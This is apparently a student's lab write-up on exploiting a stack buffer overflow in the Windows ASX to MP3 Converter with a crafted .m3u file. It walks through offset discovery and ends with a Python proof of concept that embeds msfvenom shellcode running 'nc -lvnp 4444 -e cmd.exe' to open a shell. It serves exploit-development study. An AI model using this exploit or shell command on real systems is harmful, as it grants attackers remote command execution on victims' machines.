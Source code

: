 # Windows Buffer Overflow
## 1. What is Buffer overflow
Similar with [Linux Buffer overflow](https://github.com/7heKnight/Learning-Reports/tree/main/INE/Linux%20Stack%20Smashing/Linux_BO_Foundation) theory of mine

---

## 2. Setting up environment
Download [ASX to MP3 Converter](https://www.exploit-db.com/apps/f4da5b43ca4b035aae55dfa68daa67c9-ASXtoMP3Converter.exe) and install it. After install this app, the application will locate at:
- `C:\Program Files (x86)\Mini-stream\ASX to MP3 Converter`

About the pattern, there are lots of tool like [mona](https://github.com/corelan/mona) (which is support on [Immunity Dubugger](https://www.immunityinc.com/products/debugger/)), or cyclic, or you can also use metasploit. In here I am going to use `cyclic`, to install it:
- `> pip install pwn pwntools pwnlib`

---

## 3. Finding Offset, Return Address
Open *Immunity Debugger*  , press `F3` to open the opening program menu and go to **ASXtoMP3Converter** program locationion and pick it.

![windows_stack_smashing-1.png](windows_stack_smashing-1.png)

Then, press `F9` to run, and the program's menu will appear.

![windows_stack_smashing-2.png](windows_stack_smashing-2.png)

Press load and see the supported file type.

![windows_stack_smashing-3.png](windows_stack_smashing-3.png)

In here,I will create a file with file type (*.\*m3u*) contain 18000 `A` buffers:

- `> python -c "print('A'*18000)" > Bof.m3u`

Then, re-run the program and drag the created file into load button, it will return a notification of error. Just searching on google, and (*\*.m3u*) is *MP3 URL*. So we will add `http://` to be a valid url:

- `> python -c "print('http://' + 'A'*18000)" > Bof.m3u`

After that, drag and drop it to load button again and we see that the `EIP` on Register table overrided with `0x41414141` which mean **AAAA**.

![windows_stack_smashing-4.png](windows_stack_smashing-4.png)

Re-run the application and create pattern with `cyclic` (which is one of tool's `pwn` library)

- `> pwn cyclic 18000` or can also use `> cyclic 18000`

Then adding `http://` in the first of string and execute it, and we got the `EIP` value is 0x78736761 use `cyclic` to find the offset:

- `cyclic -l 0x78736761` => Output is **17417**

Try to override EIP with `B`. Creating file to override it: `python -c "python -c "print('http://' + 'A'*17417 + 'B'* 4)" > Bof.m3u`

![windows_stack_smashing-5.png](windows_stack_smashing-5.png)

Now, we can see on `EIP` overrided with *0x42424242* which mean **BBBB**. Look down to stack table, roll up a little bit, we can see there are lots of A store in there, So I random choose the address close with the start to be the return address

![windows_stack_smashing-6.png](windows_stack_smashing-6.png)

---

## 4. Proof of Concept
We have already known the offset, got return address, using msfvernom to spawn the shellcode on linux machine:

- `msfvenom -p windows/exec CMD="nc -lvnp 4444 -e cmd.exe" -b '\x00' -f python`

Then copy it and make it to be a completely PoC

```python
from struct import pack  
  
# msfvenom -p windows/exec CMD="ncat -lvnp 4444 -e cmd.exe" -b '\x00' -f python
buf =  b""
buf += b"\xd9\xe8\xd9\x74\x24\xf4\xbd\x5b\xa4\x5d\x38\x58\x31"
buf += b"\xc9\xb1\x35\x31\x68\x1a\x03\x68\x1a\x83\xe8\xfc\xe2"
buf += b"\xae\x58\xb5\xba\x50\xa1\x46\xdb\xd9\x44\x77\xdb\xbd"
buf += b"\x0d\x28\xeb\xb6\x40\xc5\x80\x9a\x70\x5e\xe4\x32\x76"
buf += b"\xd7\x43\x64\xb9\xe8\xf8\x54\xd8\x6a\x03\x88\x3a\x52"
buf += b"\xcc\xdd\x3b\x93\x31\x2f\x69\x4c\x3d\x9d\x9e\xf9\x0b"
buf += b"\x1d\x14\xb1\x9a\x25\xc9\x02\x9c\x04\x5c\x18\xc7\x86"
buf += b"\x5e\xcd\x73\x8f\x78\x12\xb9\x46\xf2\xe0\x35\x59\xd2"
buf += b"\x38\xb5\xf5\x1b\xf5\x44\x04\x5b\x32\xb7\x73\x95\x40"
buf += b"\x4a\x83\x62\x3a\x90\x06\x71\x9c\x53\xb0\x5d\x1c\xb7"
buf += b"\x26\x15\x12\x7c\x2d\x71\x37\x83\xe2\x09\x43\x08\x05"
buf += b"\xde\xc5\x4a\x21\xfa\x8e\x09\x48\x5b\x6b\xff\x75\xbb"
buf += b"\xd4\xa0\xd3\xb7\xf9\xb5\x6e\x9a\x97\x48\xfd\xa0\xda"
buf += b"\x4b\xfd\xaa\x4a\x24\xcc\x21\x05\x33\xd1\xe3\x61\xcb"
buf += b"\x98\xae\xc0\x44\x44\x3b\x51\x09\x77\x91\x96\x34\xfb"
buf += b"\x10\x67\xc3\xe3\x50\x62\x8f\xa4\x89\x1e\x80\x40\xae"
buf += b"\x8d\xa1\x41\xc0\x52\x3f\x1d\x3d\xb8\xd3\xab\x53\xb2"
buf += b"\x0b\x67\x98\x06\x78\xa7\xcd\x03\xa0\xc4\x60\xa8\x8e"
buf += b"\x6f\x03\x55\xcf" 
  
offset = 17417  
nop = b'\x90'  
ret = pack('<I', 0x001480B8)  
  
payload = b'http://' + b'\x90'*100 + buf +  b'A'*(17417-100-len(buf)) + ret  
  
open('Bof.m3u', 'wb').write(payload)
```

![windows_stack_smashing-7.png](windows_stack_smashing-7.png)

---

## 5. Reference:
- msfvernom payloads cheatsheet: [https://medium.com/@hannahsuarez/full-list-of-546-msfvenom-payloads-39adb4d793c9](https://medium.com/@hannahsuarez/full-list-of-546-msfvenom-payloads-39adb4d793c9)
- Mona: [https://github.com/corelan/mona](https://github.com/corelan/mona)
- Immunity Dubugger: [https://www.immunityinc.com/products/debugger/](https://www.immunityinc.com/products/debugger/)
